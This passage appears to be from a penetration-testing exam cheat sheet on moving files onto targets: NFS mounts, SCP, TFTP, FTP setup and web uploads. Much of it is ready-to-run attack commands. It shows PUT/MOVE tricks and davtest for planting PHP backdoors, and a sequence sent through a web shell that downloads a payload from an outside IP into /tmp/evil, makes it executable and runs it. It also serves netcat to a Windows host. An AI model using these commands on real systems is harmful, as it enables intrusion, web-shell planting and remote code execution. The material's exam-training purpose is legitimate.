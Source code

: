     The file can be run using the following syntax:

    `C:\temp\cscript.exe webdl.vbs`

*   Mounting File Shares

    *   Mount NFS share to /mnt/nfs  
        mount $ip:/vol/share /mnt/nfs
*   HTTP Put  
    nmap -p80 $ip --script http-put --script-args http-put.url='/test/sicpwn.php',http-put.file='/var/www/html/sicpwn.php

*   ## [](https://x89k.tk/infosec/2018/11/03/oscpsurvivalguide.html#uploading-files)Uploading Files

    *   SCP

        scp username1@source_host:directory1/filename1 username2@destination_host:directory2/filename2

        scp localfile username@$ip:~/Folder/

        scp Linux_Exploit_Suggester.pl bob@192.168.1.10:~

    *   Webdav with Davtest- Some sysadmins are kind enough to enable the PUT method - This tool will auto upload a backdoor

        `davtest -move -sendbd auto -url http://$ip`

        [https://github.com/cldrn/davtest](http://web.archive.org/web/20171113221652/https://github.com/cldrn/davtest)

        You can also upload a file using the PUT method with the curl command:

        `curl -T 'leetshellz.txt' 'http://$ip'`

        And rename it to an executable file using the MOVE method with the curl command:

        `curl -X MOVE --header 'Destination:http://$ip/leetshellz.php' 'http://$ip/leetshellz.txt'`

    *   Upload shell using limited php shell cmd  
        use the webshell to download and execute the meterpreter  
        [curl -s --data "cmd=wget [http://174.0.42.42:8000/dhn](http://web.archive.org/web/20171113221652/http://174.0.42.42:8000/dhn) -O /tmp/evil" http://$ip/files/sh.php  
        [curl -s --data "cmd=chmod 777 /tmp/evil" http://$ip/files/sh.php  
        curl -s --data "cmd=bash -c /tmp/evil" http://$ip/files/sh.php

    *   TFTP  
        mkdir /tftp  
        atftpd --daemon --port 69 /tftp  
        cp /usr/share/windows-binaries/nc.exe /tftp/  
        EX. FROM WINDOWS HOST:  
        C:\Users\Offsec>tftp -i $ip get nc.exe

    *   FTP  
        apt-get update && apt-get install pure-ftpd

        #!/bin/bash  
        groupadd ftpgroup  
        useradd -g ftpgroup -d /dev/null -s /etc ftpuser  
        pure-pw useradd offsec -u ftpuser -d /ftphome  
        pure-pw mkdb  
        cd /etc/pure-ftpd/auth/  
        ln -s ../conf/PureDB 60pdb  
        mkdir -p /ftphome  
        chown -R ftpuser:ftpgroup /ftphome/
